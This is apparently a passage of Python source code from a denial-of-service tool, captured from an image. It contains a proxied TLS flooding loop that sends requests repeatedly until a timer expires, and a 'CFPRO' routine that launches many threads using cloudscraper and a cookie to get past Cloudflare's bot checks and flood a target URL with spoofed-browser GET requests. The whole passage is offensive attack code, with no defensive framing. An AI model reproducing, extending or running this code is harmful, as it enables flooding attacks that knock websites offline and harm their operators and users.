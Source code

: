     while time.time() < timelol:
        try:
            s = socks.socksocket()
            s.set_proxy(socks.HTTP, str(proxy[0]), int(proxy[1]))
            s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            s.connect((str(urlparse(url).netloc), int(443)))
            ctx = ssl.create_default_context()
            cipher = [':ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-AES256-GCM-SHA384:DHE-RSA-AES128-GCM-SHA256:DHE-DSS-AES128-GCM-SHA256:kEDH+AESGCM:ECDHE-RSA-AES128-SHA256:ECDHE-ECDSA-AES128-SHA256:ECDHE-RSA-AES128-SHA:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES256-SHA384:ECDHE-ECDSA-AES256-SHA384:ECDHE-RSA-AES256-SHA:ECDHE-ECDSA-AES256-SHA:DHE-RSA-AES128-SHA256:DHE-RSA-AES128-SHA:DHE-DSS-AES128-SHA256:DHE-RSA-AES256-SHA256:DHE-DSS-AES256-SHA:DHE-RSA-AES256-SHA:!aNULL:!eNULL:!EXPORT:!DES:!RC4:!3DES:!MD5:!PSK']
            ctx.set_ciphers(cipher)
            s = ctx.wrap_socket(s, server_hostname=urlparse(url).netloc)
            s.send(str.encode(req))
            try:
                for _ in range(200):
                    s.send(str.encode(req))
                    s.send(str.encode(req))
            except:
                s.close()
        except:
            s.close()

#region CFPRO
def LaunchCFPRO(url, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    session = requests.Session()
    scraper = cloudscraper.create_scraper(sess=session)
    jar = RequestsCookieJar()
    jar.set(cookieJAR['name'], cookieJAR['value'])
    scraper.cookies = jar
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackCFPRO, args=(url, until, scraper))
            thd.start()
        except:
            pass

def AttackCFPRO(url, until_datetime, scraper):
    headers = {
        'User-Agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 10_3_3 like Mac OS X) AppleWebKit/603.3.8 (KHTML, like Gecko) Mobile/14G60 MicroMessenger/6.5.18 NetType/WIFI Language/en',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Accept-Language': 'tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7',
        'Accept-Encoding': 'deflate, gzip;q=1.0, *;q=0.5',
        'Cache-Control': 'no-cache',
        'Pragma': 'no-cache',
        'Connection': 'keep-alive',
        'Upgrade-Insecure-Requests': '1',
        'Sec-Fetch-Dest': 'document',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-Site': 'same-origin',
        'Sec-Fetch-User': '?1',
        'TE': 'trailers',
    }
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            scraper.get(url=url, headers=headers, allow_redirects=False)
            scraper.get(url=url, headers=headers, allow_redirects=False)
        except:
            pass